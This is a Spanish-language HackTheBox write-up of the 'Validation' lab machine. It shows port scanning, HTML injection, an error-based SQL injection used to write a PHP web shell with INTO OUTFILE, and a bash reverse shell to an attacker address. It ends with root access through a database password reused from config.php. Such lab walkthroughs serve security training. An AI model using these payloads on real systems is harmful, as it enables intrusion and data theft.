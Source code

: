 ```yaml
---
title: Validation HTB Writeup
published: 2024-08-08
description: 'Validation es una maquina easy en la que vamos a realizar una SQL Injection (Error Based)'
image: 'image.png'
tags: [Easy, Linux]
category: 'HackTheBox'
draft: false 
---
```


Validation es una máquina Linux de dificultad fácil que presenta una aplicación web susceptible a una Inyección SQL. Capitalizando en esta vulnerabilidad, un atacante puede inscribir un web shell en el sistema, conduciendo a la Ejecución Remota de Código ( RCE ). Tras el punto de apoyo inicial, la escalada de privilegios se logra a través de la explotación de una contraseña de base de datos reutilizada, que conduce al acceso de nivel raíz a la máquina

# kills

- HTML Injection
- SQLI (Error Based)
- SQLI -> RCE (INTO OUTFILE)
- Information Leakage

# Information Gathering

Primero vemos si tenemos conexion con la maquina:

```bash
ping -c 1 10.10.11.116 
PING 10.10.11.116 (10.10.11.116) 56(84) bytes of data.
64 bytes from 10.10.11.116: icmp_seq=1 ttl=63 time=155 ms

--- 10.10.11.116 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 154.671/154.671/154.671/0.000 ms
```

Iniciamos un escaneo de puertos:

```bash
sudo nmap -p- --open --min-rate 5000 -n -Pn -sS 10.10.11.116 -oG nmap 

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
4566/tcp open  kwtc
8080/tcp open  http-proxy
```

Ahora a ver que versiones tenemos en cada uno de los servicios de cada puerto:

```bash
nmap -sCV -p22,80,4566,8080 10.10.11.116 

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Enumeration

## Port 80 - http (Apache httpd 2.4.48)

![alt text](image-1.png)

Vamos a interceptar esto con nuestro Burp Suite, para ver que podemos ver en la peticion de esta web

![alt text](image-2.png)

Interesante, probaremos varias cositas en estos campos de abajo:

## HTML Injection

En el campo de name podemos meter codigo html y la web lo interpreta en el account.php:

```html
<span style="color: #33acff">Mil4ne</span>
```

Cambiamos el color del name a azul:

![alt text](image-3.png)

Pero no podemos injectar codigo php para enviarnos una shell, ya que todo el name se guarda dentro de un ``<h1>``

## SQLI (Error Based)

Encontramos una SQLI en el campo de ``country``

![alt text](image-4.png)

![alt text](image-5.png)

podemos ver el nombre de la base de datos en la pagina.

# Explotation

Intentamos Introducir un archivo php mediante la SQLI con nuestro codigo malisioso:

```bash
username=mil4ne&country=Afganistan' UNION SELECT "<?php SYSTEM($_REQUEST['cmd']); ?>" INTO OUTFILE
'/var/www/html/shell.php'-- -
```

![alt text](image-6.png)


al hacer el Forward la pagina nos da un error raro, pero lo ignoramos y pasamos a probar si logramos crear el shell.php.

```bash
curl http://10.10.11.116/shell.php?cmd=ls
<span style="color: #33acff">Mil4ne</span>
account.php
config.php
css
index.php
js
shell.php
```

logramos ejecutar comandos en la maquina victima, ahora nos vamos a enviar una Reverse Shell a nuestra maquina:

```bash
nc -nlvp 9001 
listening on [any] 9001 ...
```

Generamos una revshell, por aqui te dejo una pagina util para esto: https://www.revshells.com/

```bash
curl http://10.10.11.116/shell.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.11/9001 0>&1"'
```

![alt text](image-7.png)

Ahora hay que hacer tratamiento de tty:

```bash
script /dev/null -c bash
```

Script started, file is /dev/null

```
^Z
```

```bash
stty raw -echo; fg
```

```bash
[1]  + continued  nc -nlvp 9001
                              reset
reset: unknown terminal type unknown
Terminal type? xterm
```

# Privilege Escalation

al entrar a la maquina lo primero que vemos es un config.php, que contiene esto:

```bash
ww-data@validation:/var/www/html$ cat config.php 
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

Encontramos una password, vamos a ver si nos sirve para algun usuario:

```bash
www-data@validation:/var/www/html$ su -
Password: uhc-9qual-global-pw
```

Con esto completamos la maquina, gracias por leer.